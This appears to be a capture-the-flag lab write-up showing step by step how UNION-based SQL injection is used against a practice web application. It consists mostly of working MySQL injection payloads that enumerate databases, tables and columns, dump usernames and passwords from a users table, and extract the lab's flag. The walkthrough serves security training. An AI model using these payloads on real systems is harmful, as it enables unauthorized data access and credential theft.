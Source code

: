 # UNION Based SQL Injection Walkthrough

## Target URL

**acuhungf.eu1.ctfio.com**

---

## Task 1: Retrieve Article ID 2 by Manipulating the Query

### Attempt 1:

Query used:

```sql
1' and 1=1;--
```

Result: Did not produce the desired output.

### Attempt 2:

Query used:

```sql
1' UNION SELECT 1,2,3,4;--
```

Result: Displayed content but not the expected output.

### Successful Attempt:

Query used:

```sql
1' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the current database name.

### Alternative Method:

Query used:

```sql
0' OR id = '2
```

Result: Displayed the desired article ID 2.

![Task 1](./Assets/image.png)

---

## Task 2: Determine the Number of Columns

Query used:

```sql
0' UNION SELECT 1,2,3,4;--
```

Result: Identified the correct number of columns.

![Task 2](./Assets/image%204.png)

---

## Task 3: Retrieve Characters

Query used:

```sql
0' UNION SELECT 1,2,3,'hello';--
```

Result: Verified that character data can be retrieved.

![Task 3](./Assets/image%205.png)

---

## Task 4: Retrieve Current Database Name

Query used:

```sql
0' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the database name.

![Task 4](./Assets/image%206.png)

---

## Task 5: Extract Database Names

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA;--
```

Result: Extracted all database names.

![Task 5](./Assets/image%207.png)

---

## Task 6: Extract Table Names

Query used:

```sql
0' UNION SELECT 1,2,3,TABLE_NAME FROM information_schema.TABLES;--
```

Result: Retrieved table names but not the expected output.

![Task 6](./Assets/image%208.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='sqli_two');--
```

Result: Successfully listed all tables in the `sqli_two` database.

![Task 6 - Improved](./Assets/image%209.png)

---

## Task 7: Extract Column Names from 'users' Table

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS;--
```

Result: Retrieved all column names but not the expected output.

![Task 7](./Assets/image%2010.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_two' AND TABLE_NAME='users');--
```

Result: Successfully retrieved column names for the `users` table.

![Task 7 - Improved](./Assets/image%2011.png)

---

## Task 8: Extract User Credentials

Query used:

```sql
0' UNION SELECT 1,2,username,password FROM users;--
```

Result: Successfully retrieved usernames and passwords.

![Task 8](./Assets/image%2012.png)

---

## Task 9: Extract All Users in One Query

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(CONCAT(username,':',password)) FROM users;--
```

Result: Successfully retrieved all usernames and passwords in a single row.

![Task 9](./Assets/image%2013.png)

---

## Final Task: Retrieve the Flag

Query used:

```sql
0' UNION SELECT 1,2,3,flag FROM flag;--
```

Result: Successfully extracted the flag.

![Final Task](./Assets/image%2014.png)

---

## Summary

This walkthrough demonstrates how to exploit UNION-based SQL Injection step by step, starting from retrieving the number of columns to extracting critical data such as database names, table names, column names, and user credentials. The final task was to extract the flag, successfully completing the lab challenge.

---
